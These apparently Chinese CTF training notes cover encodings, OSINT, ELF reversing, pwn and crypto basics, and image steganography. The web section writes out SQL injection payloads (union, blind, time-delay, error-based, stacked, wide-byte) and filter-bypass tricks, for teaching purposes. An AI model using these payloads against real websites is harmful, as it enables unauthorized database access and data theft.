- 常用字符表：0-9 A-Z a-z ! # $ % & ( ) * + - ; < = > ? @ ^ _ ` { | } ~
- 标准字符表： !-u（ASCII 0x21-0x75）
- 作为大整数转换进制：
- Base62：0-9 A-Z a-z（比Base64少了+ /）
- Base58：0-9 A-Z a-z（比Base62少了不易区分的0 O I l）
- Base56：比Base58少了1和o
- Base36：0-9 A-Z（比Base62少了a-z）
一些其他编码¶
其他常用编码
- UUencode、XXencode：二进制文件编码为可见字符
- QR Code 二维码
- 条形码
- 盲文编码
常用工具
- CyberChef：https://gchq.github.io/CyberChef/
- Base系列爆破：https://github.com/mufeedvh/basecrack/
- DenCode：https://dencode.com/
- Ciphey：https://github.com/Ciphey/Ciphey
OSINT基础¶
什么是OSINT¶
Open Source INTelligence：开源网络情报
- 通过完全公开的信息进行合理的推理，获取情报
一般在misc题目中出现即反之信息搜集，有几种情况：
- 构造了一个全新的虚拟身份，搜集得到出题人准备好的信息
- 根据图片、文档等附件泄漏的信息进行推理（主要）
- 包括根据图片内容推理找到拍摄位置、当时环境等信息
信息搜集/查询基础¶
数字信息搜集工具：https://github.com/ffffffff0x/Digital-Privacy
用户名批量查询：
- sherlock：https://github.com/sherlock-project/sherlock
- namechk：https://namechk.com/
Wayback Machine ：web.archive.org
- 查找网页的历史快照（以及可以创建快照）
- 有时可以找到出题人特意保存快照后删除的内容
文件信息泄露¶
各种文档的元信息（metadata）可能包含作者、修改时间等信息
- 图片的EXIF信息，可通过exiftool查看
- 一般以xml形式存储，可以直接通过二进制抹除，或者通过操作系统
工程文件夹泄漏信息
- Visual Studio的各种配置文件.vs文件夹中信息
- .vscode 文件夹中的配置文件
- .git 文件夹，泄漏全部修改历史、提交信息、提交者等
文件夹路径信息泄漏
- .DS_Store 文件，macOS 下的文件夹布局信息
- 以上提到的各种工程配置文件等也会泄漏（比如vs的pdb调试信息）
- markdown 文件图片路径（本地路径/图床用户/自建图床网站）
照片信息分析¶
图片搜索¶
常用搜索引擎：
- 百度识图搜索：中文互联网图片搜索结果
- Google 图片搜索：用来搜索外国范围的图片
- Bing 图片搜索：和Google差不多，都可以参考
- Yandex 图片搜索：
- 搜索相似图片
- 搜索风景时更常用
- TinEye：搜索完全相同的图片（找来源）
地点线索搜集¶
注意图片中的文字、牌匾、标志性建筑等，可用来作为关键词搜索
- 利用搜索引擎等找到大概位置后，可以用百度全景地图/谷歌全景地图进行确认/查找附近线索
如果图片中关键信息较少，可以优先考虑使用搜索引擎识图（Google识图等）
- 搜索确认得到相关的地名/地点信息后，可以进一步搜索相关信息
环境信息分析¶
- 几何学透视简单分析照片拍摄者高度
- 太阳角度、阴影长度等太阳相关信息
- 时间 \(\iff\) 位置相互估计
- suncalc.org
- sunearthtools.com
- 天气信息、云层信息等
- 飞机航班信息
- 估计方向、位置、时间等
- flightradar24.com
- flightaware.com
- adsbexchange.com
- 风景信息 \(\rightarrow\) Yandex 图片搜索
Lec4-Reverse¶
约 1281 个字 34 行代码 9 张图片 预计阅读时间 6 分钟
授课：马麟
程序？可执行文件¶
为什么计算机可以执行给定的程序呢
因为任何程序都将最终转化为「指令」的形式由计算机执行

前端与后端（Compile frontend & backend）¶

Compiled V.S. Interpreted¶
-
编译执行
上述通过编译器 (compiler) 将代码转化为机器指令格式的程序，进而执行
-
解释执行
通过解释器 (interpreter) 将代码转化为 VM 格式的程序（如字节码），进而在 VM 上执行


用户态可执行文件¶
- Windows：PE/PE32+（Port Executable）
- macOS：Mach-O（Mach Object）
- Linux：ELF（Executable and Linkable Format）
可通过命令行工具静态检视 ELF 文件
ELF (Executable and Linkable Format) is a common standard file format for "executables" in Linux (or Unix-like) systems
file：查看文件类型readelf：查看 ELF 文件的结构objdump：反汇编
ELF 的编译、链接¶
- 编译（汇编）：从源代码到目标文件
- 链接：从目标文件到可执行文件
ELF的编译、链接¶
以简单的hello.c为例
ELF的编译 (预处理)¶
- 头文件包含
- 宏展开与替换
ELF的编译 (编译)¶
- -S: Compile only; do not assemble or link
- -Ox: 优化等级
- -g: 启用调试
- ......
ELF的编译 (编译前端)¶
- 生成 clang AST
- 生成 LLVM IR
- 生成 gcc IR（以及其他细节）
ELF的编译 (编译后端)¶
- 从 LLVM IR 到汇编代码
- 从汇编代码到目标文件 (object file)
- 一步到位
- 从汇编代码到目标文件 (object file) GCC 版本

ELF的链接¶
- 目标文件
hello.o中有多个段 - 目标文件
hello.o还不足以包含程序运行的信息，需要进行链接 - 符号解析与重定位
- "essentially merging"

静态链接与动态链接¶

-
静态链接
将所有的目标文件都链接到一个可执行（ELF）文件中
- 优点：可执行文件独立，不依赖于其他文件，在各种环境中都可执行
- 缺点：通常会使可执行文件大小增加
-
动态链接
所有的目标文件都链接到一个储存在系统中的动态链接库（Dylib/So）中，无需单独储存
- 优点：节省磁盘空间，减少内存占用
-
缺点：依赖于系统中的动态链接库，动态链接库的版本等不同可能会导致兼容性问题；
动态链接的过程中会有额外开销，可能会影响程序的性能，但有一些优化策略
动态链接的PLT与GOT¶
-
PLT: Procedure Linkage Table
动态链接的“跳板”
-
GOT: Global Offset Table
- lazy binding optimization（延迟绑定优化）以及 full-relro 保护
ELF 程序的装载和运行¶
程序到进程¶
- 可执行程序 (Program) 是静态，文件的概念
- 进程 (Process) 是动态、系统运行时的概念
- 进程和线程 (Thread)
ELF程序的生命周期¶
- C/C++程序对应进程的起点并不是main
- 同样地，C/C++程序对应进程的终点也不是main
Example
运行结果如下：

-
静态链接程序：
内核以可执行文件 e_entry 位置 (即_start) 作为起点
-
动态链接程序：
内核以 interpreter 文件的 e_entry 位置作为起点
-
等了解交互/调试之后进行 revisit
_start¶
- glibc 代码 (汇编构筑)
- 携带
main符号跳转__libc_start_main函数
__libc_start_main¶
- 完成各类和目标 ELF 有关的初始化
- 内联
__libc_start_call_main - 最终跳往
main符号 main结束后调用exit
基地址与 ASLR¶
- PIE 动态链接可执行程序基地址随机保护
- 无论静态/动态 (是否 PIE)，栈地址随即化保护
- 通过 /proc/sys/kernel/randomize_va_space 控制随机化
ELF 程序的交互、调试¶
通过命令行人工与程序交互¶
- 绝对路径 / 相对路径
- -h / --help
- manual
- PATH 路径
- 通过虚拟机或者沙箱进行交互
通过编程与程序交互¶
- 重定向构建特殊字符作为输入
- C 管道编程
- python subprocess 库
- python pwntools 库
GDB: GNU DeBugger¶
- 调试模式
- 调试器执行模式
- attach 模式
- remote 模式
- 常用调试功能
- 执行断点
- 硬件断点
- 查看寄存器 / 内存
- set 修改寄存器 / 内存
- gdb 插件
ELF程序的逆向¶

ELF的静态逆向¶
- 反汇编：机器指令 \(\rightarrow\) 汇编指令（查表、准确）
- objdump
- 反编译：汇编指令 => 编程语言（分析/特征匹配/启发式 … 、往往不准确）
- IDA Pro (https://hex-rays.com/ida-pro/)
- Binary Ninja (https://binary.ninja)
- with free version
- Ghidra (https://github.com/NationalSecurityAgency/ghidra)
- Cutter / radare (https://github.com/rizinorg/cutter )
- 大语言模型 ;D (https://mlm.lingyiwanwu.com/)
静态逆向技巧¶
对于静态链接目标
- 特征 + 猜测尽可能恢复库函数符号
对于符号恢复的静态 or 动态链接目标
- 关注特定常量和字符串
- 关注输入和输出函数
- 关注分支、比较指令
- 关注可能涉及加密解密的特殊运算（位运算、异或、取余）
ELF的动态逆向¶
「可运行」和「可调试」是高效解决逆向问题的必备
- 许多逆向赛题都需要「纯静态」的方式解决，程序可能依赖特定的架构/设备
- “if it can run, it can be cracked”
- 通过运行时的结果解决静态逆向时的疑惑
Lec5-Pwn¶
约 227 个字 预计阅读时间 1 分钟
授课：马麟
写在前面的话：由于这堂课上大部分内容都是基于具体题目来讲解的，实际上的知识点并没有多少，所以这里的内容会比较简略。
PWN 引言¶
- PWN = Find the Bugs + Exploit them
Bug Definition
- A Software Bug is a failure or flaw in a program that produces undesired or incorrect results. It’s an error that prevents the application from functioning as it should.
CTF PWN Bugs¶
graph LR;
A[**C/C++ language**
memory corruption bugs]
B[**Clear exploitation aim**
code execution]
C[**Naive program**
usually terminal program]
D(**other complex language**
logic bugs)
E(**other complex target**
httpd, kernel, browser...)
A--->D
B
C--->E
pwn 赛题结构
-
赛题文件
-
往往需要逆向
-
漏洞描述 (diff)
-
赛题环境
- libc and ld
- Dockerfile
- "good challenge should issue everything you needed to run and test it"
-
赛题远程
代码注入 (Code Injection)¶
"An attacker introduces (or "injects") code into the program and changes the course of its execution. "
- 原始 + 直接的漏洞与攻击
- “相对容易”检测 - 特征函数
- “相对容易”防御 - 白名单/黑名单
命令注入
- 直接
shellcode 注入
- 间接
- 搭配控制流劫持的利用方式
stack overflow 能力¶
graph LR;
A[溢出破坏局部变量]
B[溢出破坏存储的栈帧指针]
C[溢出破坏存储的返回地址]
D[破坏数据流]
E[栈迁移]
F[控制流劫持]
A--->D
B--->E
C--->F
Lec6-Crypto¶
约 1410 个字 2 张图片 预计阅读时间 6 分钟
授课：
密码学基础¶
密码学是研究编制密码和破译密码的技术科学
- 设计加解密算法
- 破解加解密算法
密码学介绍¶
为何需要密码学¶
- 存储：信息的存储可能是不安全的，会被窃取
- 传输：信息的传输过程可能也不是隐秘的，会被窃听
不能直接使用明文进行存储和传输！
Crypto in CTF¶
出题人给定一个有一定缺陷的加密算法，需要选手攻破该加密算法，得到解密后的文字，或者伪造加密信息
比赛中题目虽然常常会涉及许多较新的论文研究结果，但是仍与目前隐私计算等前沿密码学安全研究有一定距离
Crypto学习资源推荐¶
- CTF Wiki
- 4老师倾情推荐的密码学做题网站：CryptoHack
- 密码学入门书籍：An introduction to mathematical cryptography
基本术语¶
- 消息被称为明文（Plaintext）。用某种方法伪装消息以隐藏它的内容的过程称为加密 （Encryption），被加密的消息称为密文（Ciphertext），把密文恢复为明文的过程称为密（Decryption）。
- 密码算法（Cryptography Algorithm）：是用于加密和解密的数学函数。
- 密钥（Key）：加密或解密所需要的除密码算法之外的关键信息。
- 对称加密（Symmetric Cryptography）
- 特点：在加密和解密时使用同一密钥
- 例子：流密码（RC4），块密码（AES，DES）
- 非对称加密（Asymmetric Cryptography）
- 特点：在加密和解密时使用不同密钥，加密使用公钥，解密使用私钥
- 例子：RSA，ElGamal，ECC
- 哈希函数（Hash Function）
- 特点：把输入内容单向映射到一个短的摘要上
- 应用：下载文件完整性校验
- 例子：CRC，MD5，SHA系列
- 数字签名（Digital Signature）
- 应用：对消息进行签名（也是一个短的消息），以防消息的冒名伪造或篡改

数学基础¶
OI Wiki 数论部分¶
整除：$ a \mid b $¶
- \(\forall a \in \mathbb{Z}~, 1 \mid a\) ；若 \(a \neq 0\)，则 \(a \mid 0\) 且 \(a \mid a\)
- 若 \(a \mid b\) 且 \(b \mid c\)，则 \(a \mid c\)
- 若 \(a \mid b\) 且 \(a \mid c\)，则 \(a \mid (sb + tc)\)，其中 \(s, t \in \mathbb{Z}\)
最大公因数（Greatest Common Divisor, GCD）：$ \gcd(a, b) $¶
- \(\gcd(a, b) = \gcd(b, a)\)
- \(\gcd(a, b) = \gcd(a, b - a)\)
- \(\gcd(a, b) = \gcd(a, b \mod a)\)
特别的，当 \(a\)、\(b\)互素，即 $ \gcd(a, b) = 1 $时，一定存在整数 \(x, y\) 使得 \(ax + by = 1\)
算数基本定理¶
任何一个大于 \(1\) 的自然数 \(n\) 都可以唯一地分解为若干个素数的乘积 $$ n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k} $$ 其中 \(p_1, p_2, \cdots, p_k\) 是素数，\(a_1, a_2, \cdots, a_k\) 是正整数
同余¶
\(a,b\)对于模\(n\)同余：\(a \equiv b \pmod{n}\)
设 \(a, b, c, d, n\)均为整数，且 \(n \neq 0\)，则有：
- $ n \mid a \Leftrightarrow a \equiv b \pmod{n} $
- $ a \equiv a \pmod{n} $
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a \pm c \equiv b \pm d \pmod{n}\)，\(ac \equiv bd \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，则 \(a^k \equiv b^k \pmod{n}\)
- 若 \(a \equiv b \pmod{n}\)，\(c \equiv d \pmod{n}\)，则 \(a^c \equiv b^d \pmod{n}\)
- 若 \(a + b \equiv 0 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为加法模 \(n\) 逆元
- 若 \(ab \equiv 1 \pmod{n}\)，则称 \(a\) 与 \(b\) 互为乘法模 \(n\) 逆元。\(a\) 的乘法模 \(n\) 逆元记为 \(a^{-1}\) ，\(a\) 有乘法模 \(n\) 逆元当且仅当 \(\gcd(a, n) = 1\)
中国剩余定理¶
若 \(m_1, m_2, \cdots, m_k\) 是两两互质的正整数，则对于任意的整数 \(a_1, a_2, \cdots, a_k\)，同余方程组 \[ \begin{cases} x \equiv a_1 \pmod{m_1} \\ x \equiv a_2 \pmod{m_2} \\ \cdots \\ x \equiv a_k \pmod{m_k} \end{cases} \] 对模 \(m = m_{1}m_{1} \cdots m_{1}\) 有唯一解 \(x\)。
设 \(M_i = \frac{m}{m_i}\)，则 \(M_i\) 与 \(m_i\) 互质，存在整数 \(N_i\) 使得 \(M_iN_i \equiv 1 \pmod{m_i}\)（\(N_i\) 为 \(M_i\) 的模 \(m_i\) 乘法逆元），则 $$ x = \sum_{i=1}^{k} a_iM_iN_i $$
欧拉函数¶
对于正整数 \(n\)，欧拉函数 \(\varphi(n)\) 定义为小于等于 \(n\) 的正整数中与 \(n\) 互质的数的个数
- 若 \(n = p_1^{a_1} \times p_2^{a_2} \cdots \times p_k^{a_k}\)，则 \(\varphi(n) = n \times (1 - \frac{1}{p_1}) \times (1 - \frac{1}{p_2}) \cdots (1 - \frac{1}{p_k})\)
- 若 \(n = p^a\)，则 \(\varphi(n) = p^a - p^{a-1} = p^{a-1}(p-1)\)
- 若 \(n = p \times q\)，且 \(p, q\) 互质，则 \(\varphi(n) = \varphi(p) \times \varphi(q)\)
- 若 \(n = p \times q\)，且 \(p, q\) 为不同的质数，则 \(\varphi(n) = (p-1)(q-1) = \varphi(p) \times \varphi(q)\)
欧拉定理¶
若 \(a, n\) 互质，则 \(a^{\varphi(n)} \equiv 1 \pmod{n}\)
费马小定理（欧拉定理的特例）：当 \(n\) 为质数时，\(\varphi(n) = n - 1\)，即 \(a^{n-1} \equiv 1 \pmod{n}\)
RSA算法¶
- 选择两个大质数 \(p, q\)，计算 \(n = p \times q\)，\(\varphi(n) = (p-1)(q-1)\)
- 选择 \(e\)，使得 \(1 < e < \varphi(n)\)，且 \(\gcd(e, \varphi(n)) = 1\)
- 计算 \(d\)，使得 \(d \equiv e^{-1} \pmod{\varphi(n)}\) ，即 \(d \times e \equiv 1 \pmod{\varphi(n)}\)
- 于是得到公钥为 \((e, n)\)，私钥为 \((d, n)\)， 设明文为 \(m\)，密文为 \(c\)，若消息太长，可将消息分段加密
- 加密：\(c = m^e \mod n\)
- 解密：\(m = c^d \mod n\)
古典密码¶
- 代换（substitution）密码——用新的替换原先的内容
- 置换（permutation）密码——打乱原先的顺序
- Hill密码
凯撒密码¶
又称加法密码，是一种最简单的替换密码，是一种使用恒定偏移量的替换密码，将字母表中的每个字母循环移动固定位数得到密文
- 加密：\(y = \text{encode}(x) = (x + key) \mod 26\)
- 解密：\(x = \text{decode}(y) = (y - key) \mod 26\)
- 破解：暴力枚举观察结果（常见编码ROT13，取\(key = 13\)）
一般的凯撒加密只作用于26个字母，但也可拓展到ASCII码表上（常见编码ROT47，将33~126作为字母表，取\(key = 47\)）
仿射密码¶
仿射密码是一种线性替换密码，类似于凯撒加密，但不止进行加法
- 加密 \(y = \text{encoude}(x) = (x \times key_1 + key_2) \mod 26\)
- 解密 \(x = \text{decode}(y) = (y - key_2) \times key_1^{-1} \mod 26\)
- 破解：单表密码加密前后的字符是一一对应的，不会破坏统计规律，根据英文文本中字母出现的频率以及一些常见单词即可轻松破解(如
the,and,youa等)
维吉尼亚密码¶
一种多表加密的替换密码，密钥任意长，并且以循环使用，第 \(i\) 个字符用第 \(i\) 个密钥进行偏移
- 加密：\(y_i = \text{encode}(x_i) = (x_i + key_i) \mod 26\)
- 解密：\(x_i = \text{decode}(y_i) = (y_i - key_i) \mod 26\)

例：明文CRANE，密钥TONY
- (C, T) \(\rightarrow\) V
- (R, O) \(\rightarrow\) F
- (A, N) \(\rightarrow\) N
- (N, Y) \(\rightarrow\) L
- (E, T) \(\rightarrow\) X
破解：确定密钥长度 \(\rightarrow\) 分组爆破加法密码 \(\rightarrow\) 得到密钥
置换密码¶
加密变换使得信息元素只有位置变化而内容不变，比如对于一种置换密码，其置换表为
| X | 1 | 2 | 3 | 4 | 5 | 6 |
|---|---|---|---|---|---|---|
| E(X) | 3 | 5 | 1 | 6 | 4 | 2 |
对于明文\(\texttt{crypto basic}\)，先进行分组（不足需填充）：\(\texttt{[crypto]}\)和\(\texttt{[ basic]}\)，然后对每一组进行置换： 对每一组进行置换： \(\texttt{[crypto]} \rightarrow \texttt{[yoctrp]}\) \(\texttt{[ basic]} \rightarrow \texttt{[ac ibs]}\) 最终密文就是\(\texttt{yoctrpac ibs}\)
栅栏密码¶
栅栏密码也是一种置换密码，其将明文分割成k行，然后重新拼接，这里k即为加密的密钥
对于明文\(\texttt{crypto basic}\),取 \(k=3\) ，将明文分割成三行
c |
p |
s |
|
|---|---|---|---|
| r | t | b | i |
| y | o | a | c |
因此得到的密文为\(\texttt{cp srtbiyoac}\)
Hill密码¶
希尔密码是运用基本线性代数原理实现的替换密码
每个字母当作26进制数字，将一串字母当成 \(n\) 维向量，与一个 \(n \times n\) 的矩阵相乘，再将得出的结果 mod 26，其中这个 \(n \times n\) 矩阵就是密钥
比如明文 \(\texttt{IT}\) ，转换成26进制为$P = \begin{bmatrix} 9 & 20 \end{bmatrix} $，加密密钥 $ K = \begin{bmatrix} 11 & 8 \\ 3 & 7 \end{bmatrix} $
密文即为$ C = P \times K = \begin{bmatrix} 159 & 212 \end{bmatrix}\mod 26 = \begin{bmatrix} 3 & 4 \end{bmatrix} $，转回字母即 $\texttt{CD} $ 解密只需要计算 \(K\) 的逆矩阵即可，$ P = C \times K^{-1} = \begin{bmatrix} 3 & 4 \end{bmatrix} \times \begin{bmatrix} 7 & 18 \\ 23 & 11 \end{bmatrix} = \begin{bmatrix} 9 & 20 \end{bmatrix} $，再转回字母即 $\texttt{IT} $
Ended: 基础周
专题周 ↵
Web ↵
Web-1 注入¶
约 2085 个字 65 行代码 3 张图片 预计阅读时间 9 分钟
授课：褚翰泽（OverJerry）
SQL基础¶
-
SELECT语句的结构
Examples:
-
关于注释
-
一些SELECT的其他例子
-
一些常用的URL编码：
- Space: %20
- #: %23
- ': %27
- ": %22
- +: %2B
- # + $ - _ . ! * ( ) 浏览器地址栏默认不编码，但是不意味着不能编码
SQL注入¶
直接回显的SQL注入¶
网站架构分析¶

SQL注入的判断¶
根据网站功能，猜测可能的SQL语句
存在注入->SQL语句可以以一种“意料之外”的方式被解析
而最简单的“意料之外”就是把他搞坏
-
传入全部各种特殊字符 '"~!@#$%^&*()`
-
不管内部结构怎么样，这样肯定能出错，检测效率高
判断到底是数字型还是字符型
-
传入id=2-1
- 如果是数字型，语句应该变为：
等价于：那么就应该能正常返回id=1的页面- 而如果是字符型，语句应该变为：
会查询不到内容
此刻，我们已经收集到的信息有:
- 内部SQL语句的结构
- 服务端的基本响应逻辑
那么，怎么继续获取信息呢？
- 借助联合查询:
- 我们可以尝试传入
id=1 UNION SELECT {secret_data}从而使拼接的SQL语句变为：
- 这样，联合查询就会覆盖SQL查询的结果，并借助PHP代码实现的HTML嵌入，将我们想要的信息嵌在页面里传回来！
由于联合查询前后的列数必须一致，我们也要判断原SQL查询的列数
- 我们可以尝试构造
- \(M \leq N\)时，能有正常的返回，\(M > N\)时会报错，从而可以判断查询的列数
- 当然，也可以一个个试
数据获取¶
现在我们以及可以利用MySQL函数直接获取一些信息了
但是，由于我们不知道表名、列名，我们无法获取更多的数据
幸运的是，MySQL 的默认库information_schema中存放了这些信息。当然，这个技巧只能在 MySQL 中使用
-
在MySQL中，所有的数据库名存放在
information_schema.schemata的schema_name字段下 -
所有的表名存放在
information_schema.tables的table_name字段下，可以以table_schema为条件筛选 -
所有的列名存放在
information_schema.columns的column_name字段下，可以以table_schema和table_name为条件筛选
可以构造
获取所有数据库信息，以此类推
如果想要分行获取，也可以借助LIMIT
无回显的SQL注入¶

判断注入点¶
根据网站功能，可能的SQL语句仍然是SELECT，而且只能是字符型
验证猜想
-
传入
uname=' -
而uname="时
说明是单引号闭合
一些SQL注入方法¶
传入uname=a' or {condition}# 可以让语句变为
这样，当且仅当statement为真时，username='a' or {condition}才可能为真，返回User Found，否则必为Not Found(因为不存在username='a'的数据)。既，我们可以获取{condition}的结果！
用and语句构造也是同理
SUBSTR(str, pos, len) 可截取字符串
str参数代表待截取的字符串pos参数代表从什么位置开始截取(下标从1开始)len参数表示字符串截取的⻓度
ASCII(char)将字符转为ASCII码
那么，我们用SUBSTR()一位位取出要查找内容的字符，再用ASCII()转化为ASCII码，就能用二分法获取数据了
例子

利用延时
IF(condition, expr1, expr2)
如果condition为真就执行expr1，反之执行expr2
和SLEEP()配合，就能通过测量响应时间来获取数据！
例子
特殊的SQL注入¶
是否有可能注入INSERT, UPDATE, DELETE语句？¶
假设某用户注册场景，username/email/password分别用POST参数uname&email&passwd传入
在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可
传入uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b
语句变为
如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容
传入uname=', DATABASE(), '')#&email=a&passwd=b
语句变为
注册用户的email栏会直接展示数据库名
一个仅限MySQL的技巧¶
传入uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b
将结果转换回字符即可UNHEX(CONV(res, 10, 16))
UPDATE语句也是同理。DELETE一般没有回显的渠道所以还是只能用延时注入。
报错注入(MySQL环境下)¶
核心思想就是让我们要查询的信息输出到报错信息中去
EXTRACTVALUE(xml_document,Xpath_string)
使⽤Xpath格式的字符串从xml_document中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出Xpath_string
那么我们可以刻意构造错误的Xpath_string和我们想要查询的数据拼接
比如，只要查询中执行了 EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e)) 就必定报错(0x7e是~的编码)，DATABASE()会作为Xpath的一部分出现在报错信息中
这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。
堆叠注入¶
很多数据库是支持多个SQL指令在一行内执行的。不过，服务端语言可能不会获取多行结果。
比如PHP常用的mysqli->query()方法只会执行一条指令。要执行多条必须用mysqli_multi_query()方法，使用场景比较少见。
不过，一旦发现了一个堆叠注入就约等于发现了一个RCE，危害极大。
常见的闭合判断方法：;select sleep(1);#
如果有延时说明后续指令被执行了。
二次注入¶
对数据进行转义是为了防止SQL语句执行时出现问题，存储的原始数据并没有转义。
那么，如果某个数据被存入时携带了恶意的SQL语句，由于存入操作进行了良好的转义没有造成注入，但是服务端的其他功能读取这串数据用于拼接SQL语句时没有转义，可能也会造成注入。
SQL注入原理总结¶
- SQL注入产生在服务端运行的编程语言和SQL服务器的边界上
- SQL注入的本质是构造一条产生有效信息输送的信息链！
SQL注入的绕过¶
常见防护方法：
- 直接拦截
- 关键字替换
- 编码转义
- 参数化查询
检测方式：
- 关键字匹配(直接查找/正则)
- 语义匹配
基本思路：针对关键字/正则匹配
- 大小写
- 利用等价命令 比如 OR->||, SPACE->/**/, ORDER BY->GROUP BY …
- 如果只是单纯删去关键字，且只删一次，可以嵌套绕过，比如
UNION是关键字会被删除，那么传入UNUNIONION就会被删成UNION，从而注入
针对语义匹配
- 相对难度较大，只能利用语言特性把语义检测绕晕。常见办法是嵌套注释符让其以为全部内容都被注释了。
奇技淫巧：
- 超长字符串绕过
- 多次编码(需要服务端有相应解码功能)
- %00截断/换行截断
- 改变请求方式
GET->POST,?a=1->/a/1
对于直接编码转义或是参数化查询基本无能为力的，无法逃逸=无法注入。
不过，如果数据库使用的是GBK编码，而服务端只采用addslashes()方法进行转义，可能造成逃逸。比如addslashes("%df'")="%df\'" 传给SQL服务器时十六进制编码为 df 5c 27
而在GBK编码下，df 5c是汉字運的编码，最后这段字符会被数据库理解为運'，导致转义失效，单引号逃逸。这种技巧被称为宽字节注入。
一些其他注入漏洞的例子¶
-
XXE: XML external entity attack
比如这段XML发送给某个API后，服务器会解析XML的内容，并返回一个HTML页面。
-
SSRF: Server-side request forgery
诱导服务端对非预期的地址作网络请求，从而获取部分内网信息
总结¶
Web漏洞挖掘的关键：
- 全面的信息收集
- 完整的功能分析
- 清晰的利用逻辑
- 丰富的知识储备
- 更重要的是耐心！
Ended: Web
Misc ↵
Misc专题一： 文件/图像隐写¶
约 2579 个字 2 张图片 预计阅读时间 10 分钟
文件系统基础¶
文件如何存储¶
不同的文件系统，不同的组织方式
- MS 派：FAT、NTFS、exFAT、ReFS
- Apple 派：HFS、APFS
- Linux 派：ext[234]、XFS、Btrfs、ZFS...
文件是一串二进制数据
- 在 HDD 上是微小磁极的磁化方向
- 在 SSD 上是电荷的存储状态
“文件名”是由文件系统管理的，不是文件本身数据的一部分
- 文件系统会记录文件名、文件大小、创建时间、修改时间等信息
- 文件内容才是真正的数据
文件和文件类型¶
扩展名
- .jpg .webp .txt .docx ...
- 是文件名的一部分，可以随意修改
- （在一些桌面环境下）决定了打开文件的默认程序
内容
- 通过文件内容来识别文件类型（√）
- file 命令：根据文件内容判断文件类型
- 不同文件类型有不同的“魔数”(magic number)
二进制查看文件与分析¶
010 Editor
- 全平台最常用的二进制编辑器，付费软件（但容易破解）
- 有丰富的 binary templates，支持解析多种文件格式
wader/fq
- Go 编写的开源二进制文件查看工具
- 支持类似 jq 语法的查询
Hex Fiend
- macOS 上免费开源高效的二进制编辑器
- 也有多种二进制格式的解析模板，但显示没有 010 丰富
ImHex
- 全平台开源二进制编辑器
- 类似 010 Editor，但使用麻烦一些
- 可以编写自定义解析模板
文件类型检测与元信息¶
常见文件的 magic number：
| 文件类型 | 文件头 | 对应ASCII |
|---|---|---|
| JPEG | FF D8 FF | ... |
| PNG | 89 50 4E 47 0D 0A 1A 0A | .PNG.... |
| GIF | 47 49 46 38 39 61 | GIF89a |
| 25 50 44 46 | ||
| ZIP | 50 4B 03 04 | PK.. |
| RAR | 52 61 72 21 | Rar! |
| 7zip | 37 7A BC AF 27 1C | 7z..'. |
| WAV | 52 49 46 46 | RIFF |
- 通过 file 命令进行文件类型的检测
- 可以使用 exiftool 读取部分类型文件的元信息
文件附加内容的识别与分离¶
大部分文件类型都有一个标记文件内容结束的标志
- 比如 PNG 的 IEND 块、JPEG 的 EOI 标志（FF D9）
所以一般在文件末尾添加其他字节时，不会影响原文件本身的用途
- 因此有些隐写是将数据隐藏在文件末尾达到的
- 或者在文件后叠加另一份文件
- cat cover.jpg secret.zip > cover_stego.jpg
附加内容的识别
- exiftool 一般可以识别图像文件后的附加数据
- binwalk 可以检测叠加的文件
附加文件的分离
- binwalk 或 foremost 识别并分离
- dd if=
of= bs=1 skip= 手动分离
图像隐写基础技术¶
文件内容基本隐写¶
文件末尾添加数据
- exiftool 识别短数据，或者十六进制编辑器直接观察
- binwalk 识别叠加文件，foremost 提取
- 图像末尾叠加一个压缩包，就是所谓的“图种”
- 修改后缀名可能可以解压（部分解压软件会忽略前面的图像）
- 其实不如直接分离
直接利用元信息
- exiftool 即可读取
色彩空间、色彩模式¶
色彩空间（sRGB、Adobe RGB、Display P3 等）是一个相对非常复杂的概念，而且是针对显示的，我们不详细介绍
我们注重于表示颜色的数据上，一般称为色彩模式（color mode）：
- 二值图像（bitonal）：每个像素只有两种颜色，如黑白
- 灰度图像（grayscale）：每个像素有多种灰度，如 256 级灰度
- RGB(A)：3(+1) 通道，表示 RGB 三种颜色，A 表示透明度通道
- CMYK：青 cyan、品红 magenta、黄 yellow、黑 black 四种颜色混合
- HSV：色调 hue、饱和度 saturation、明度 value
- HSL：色调 hue、饱和度 saturation、亮度 lightness
- YCbCr：亮度 luminance、蓝色色度 blue chroma、红色色度 red chroma
- LAB：亮度 lightness、绿红色度 A、蓝黄色度 B
LSB隐写¶
人眼对于微小的颜色变化不敏感
- 对于 8 bit 的颜色值，最低位的变化不会被察觉
- 可以随意修改最低位，而不影响图像的显示效果
LSB 隐写将颜色通道的最低位用来编码信息
- 图像：stegsolve / CyberChef View Bit Plane
- 数据：stegsolve / CyberChef Extract LSB / zsteg / PIL
PIL 图像处理基础¶
PIL（Python Imaging Library）是 Python 中非常常用的图像处理库
安装：pip3 install pillow 或 apt install python3-pil 官方文档 / 教程：https://pillow.readthedocs.io/en/stable/
- 除此之外想要灵活使用可能还需要一点 numpy 的基础
基本用法
- from PIL import Image 导入和图像读写处理有关的 Image 类
- img = Image.open(file_name) 打开图像
- img.show() 显示图像；img.save(file_name) 保存图像
- img.size 图像大小，img.mode 图像模式
- img.convert(mode) 转换图像模式
- img.getpixel((x, y)) 获取像素点颜色
- img.putpixel((x, y), color) 设置像素点颜色
- np.array(img) 将图像转换为 numpy 数组
具体图像模式以及转换
-
'1'：黑白二值（0/255）；'L'：灰度（8 bit），'l'：32 bit 灰度
- L = 0.299 R + 0.587 G + 0.114 B
-
'P'：8bit 调色盘，获取的像素值是调色盘索引
- 'RGB'、'RGBA'
- 'CMYK'：转换时有色差，CMY = 255 - RGB，K = 0
- 'YCbCr'、'LAB'、'HSV' 等，转换时有复杂公式（可能出现新的隐写）
PIL 其他模块用途
- ImageDraw 用于绘制图像、绘制图形
- ImageChops 用于图像通道的逻辑运算
- ImageOps 用于图像整体的运算一类
- ImageFilter 用于图像的滤波处理
图像格式介绍¶
